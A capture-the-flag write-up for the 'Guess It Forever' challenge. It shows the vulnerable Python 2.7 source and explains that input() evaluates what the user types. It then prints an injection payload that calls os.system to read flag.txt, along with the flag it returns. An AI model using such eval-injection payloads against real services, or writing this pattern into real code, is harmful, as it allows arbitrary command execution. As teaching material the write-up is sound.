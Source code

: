 # Guess It Forever

![chal](challenge.png)


### Python 2.7 - Command Injection Vulnerability in *Input()*

```python
#!/usr/bin/python2.7
from random import randint

def menu():
        print("Options")
        print("1. Guess the flag")
        print("2. Get a random number")
        print("3. quit")

FLAG = open("flag.txt", "r").read()
MAX = 10**12

i = 0
while i < 500:
        menu()
        try:
                opt = int(input("> "))
                if opt == 1:
                        guess = int(input("What is the number: "))
                        num = randint(1, MAX)
                        if guess == num:
                                print("Here is your flag %s" % FLAG)
                                quit()
                        else:
                                print("Incorrect")
                elif opt == 2:
                        print("Here is a random number %d" % randint(1, MAX))
                elif opt == 3:
                        print("Goodbye")
                        quit()
                else:
                        print("That is not an option")
                        i -= 1
                i += 1

        except (TypeError, NameError) as e:
                print("Why error")

```

Here we can see the source code to the application running on the server and at first sight it looks like we have a crypto problem but after looking closer at the code we can see that it's written in Python2.7 and it uses the *input()* function. **In Python 2.x, the input() function is equivalent to eval(raw_input).** Here is our vulnerability

```
> 1
What is the number: __import__('os').system('cat flag.txt')
gg{Python3_>_Python2}
Incorrect
Options
1. Guess the flag
2. Get a random number
3. quit
>
```

`FLAG: gg{Python3_>_Python2}`
